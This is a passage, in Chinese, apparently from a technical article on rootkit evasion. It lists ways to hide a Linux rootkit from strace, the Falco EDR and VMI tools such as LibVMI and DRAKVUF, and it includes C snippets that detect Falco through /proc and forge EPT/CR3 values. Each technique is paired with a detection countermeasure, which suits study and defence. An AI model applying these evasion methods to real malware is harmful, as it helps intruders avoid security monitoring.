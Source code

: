 **针对性**：

* **对抗strace**：阻止`PTRACE_ATTACH`，使调试器无法跟踪Rootkit进程。
* **增强**：伪装为内核线程（如`kthreadd`），降低怀疑。
* **检测方反制**：检查`sys_call_table`完整性。
* **二次绕过**：使用内联钩子替换表劫持，规避表检查。

##### 5.2.2 环境感知与沙箱规避

**目标**：规避EDR（如Falco）和沙箱。

**方法**：检测Falco进程并动态暂停：

```clike
#include <dirent.h>
#include <unistd.h>

void avoid_falco(void) {
    DIR *dir = opendir("/proc");
    struct dirent *entry;
    while ((entry = readdir(dir))) {
        if (strstr(entry->d_name, "falco")) {
            usleep(60000000); // 暂停60秒
            break;
        }
    }
    closedir(dir);
}
```

**针对性**：

* **对抗Falco**：暂停运行以规避实时监控，等待Falco超时。
* **增强**：检测Falco的eBPF探针（如`bpf_probe_read`调用），动态卸载。
* **检测方反制**：Falco增加探针完整性检查。
* **二次绕过**：加载伪装eBPF程序，伪造正常事件流。

#### 5.3 针对VMI的绕过

##### 5.3.1 伪造VMCS字段

**目标**：规避LibVMI和DRAKVUF的内存分析。

**方法**：干扰Hypervisor的内存映射：

```clike
#include <linux/kvm.h>

void spoof_vmcs(void) {
    struct kvm_vcpu *vcpu = current_vcpu();
    if (vcpu) {
        // 伪造EPT（扩展页表）映射
        vcpu->arch.eptp = fake_eptp_addr;
        // 修改CR3寄存器，隐藏内存区域
        vcpu->arch.cr3 = fake_cr3_addr;
    }
}
```
